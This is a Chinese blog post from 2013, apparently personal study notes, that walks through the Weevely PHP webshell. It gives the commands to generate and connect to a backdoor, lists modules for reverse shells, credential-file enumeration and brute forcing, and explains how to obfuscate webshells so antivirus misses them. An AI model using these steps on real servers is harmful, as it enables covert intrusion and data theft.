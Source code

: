 ```yaml
---
author: bccsafe
comments: true
date: 2013-04-19 15:49:50+00:00
layout: post
slug: weevely-php-webshell
title: Weevely PHP WEBSHELL!
wordpress_id: 158
categories:
- wp_bt5 学习笔记
post_format:
- 图像
tags:
- Weevely
---
```


Weevely是一款隐蔽模块化的PHP WEBSHELL,Weevely基于c/s模式构建,目前已经有30多个模块,功能涉及服务器错误配置审计，后门放置，暴力破解，文件管理，资源搜索，网络代理，命令执行，数据库操作，系统信息收集及端口扫描等

详细介绍：   [https://github.com/epinna/Weevely](https://github.com/epinna/Weevely)



在最新的kali linux中 版本为V1.0    BT5内置的是V0.7

使用了telnet的方式来代替web 页面式的管理，而经过weevely base64编码加密的后门 ， 可以骗过主流的杀软，之前还看到有人提取出了加密代码，过安全狗什么的 



介绍了很多...开始正题

1. 生成客户端 

[![weevely create](../../../../../public/Image/2013/04/2.jpg)](../../../../../public/Image/2013/04/2.jpg)
    
     ./weevely.py  generate password  /root/bccsafe.php
 
2. 连接，成功连上后就可以随意的使用终端了，按TAB进入操控模式，网上搜了下 就搜到这么点 命令应该还有更多

[![weevely](../../../../../public/Image/2013/04/1111111.jpg)](../../../../../public/Image/2013/04/1111111.jpg)
    
     ./weevely.py http://www.xxx.com/bccsafe.php bccsafe


>	系统
>	
>	system.info   //收集系统信息
>	
>	文件
>	
>	file.rm           //删除文件
>	
>	file.read        //读文件
>	
>	file.upload        //上传本地文件
>	
>	file.check        //检查文件的权限和
>	
>	file.enum        //在本地词表的书面枚举远程文件
>	
>	file.download        //下载远程二进制/ ASCII文件到本地
>	
>	SQL
>	
>	sql.query        //执行SQL查询
>	
>	sql.console        //启动SQL控制台
>	
>	sql.dump        //获取SQL数据库转储
>	
>	sql.summary        //获取SQL数据库中的表和列
>	
>	后门
>	backdoor.tcp                //TCP端口后门
>	
>	backdoor.install        //安装后门
>	
>	backdoor.reverse_tcp        //反弹
>	
>	枚举
>	audit.user_files        //在用户家中列举常见的机密文件
>	
>	audit.user_web_files        //列举常见的Web文件
>	
>	audit.etc_passwd        //枚举/etc/passwd
>	
>	查找
>	find.webdir        //查找可写的web目录
>	
>	find.perm        //查找权限可读/写/可执行文件和目录
>	
>	find.name        //按名称查找文件和目录
>	
>	find.suidsgid        //查找SUID / SGID文件和目录
>	
>	暴破
>	bruteforce.sql                //暴力破解单一SQL用户
>	
>	bruteforce.sql_users        //暴力破解SQL密码
>	
>	bruteforce.ftp               // 暴力破解单一FTP用户
>	
>	bruteforce.ftp_users        //暴力破解FTP密码

3.分离Weevely加密模块加密任意WebShell

[http://zone.wooyun.org/content/2975](http://zone.wooyun.org/content/2975)

    
    python test.py intofile  outfile




[![Weevel加密](../../../../../public/Image/2013/04/5.jpg)](../../../../../public/Image/2013/04/5.jpg)



[![intofile](../../../../../public/Image/2013/04/3.jpg)](../../../../../public/Image/2013/04/3.jpg)

[![outfile](../../../../../public/Image/2013/04/4.jpg)](../../../../../public/Image/2013/04/4.jpg)






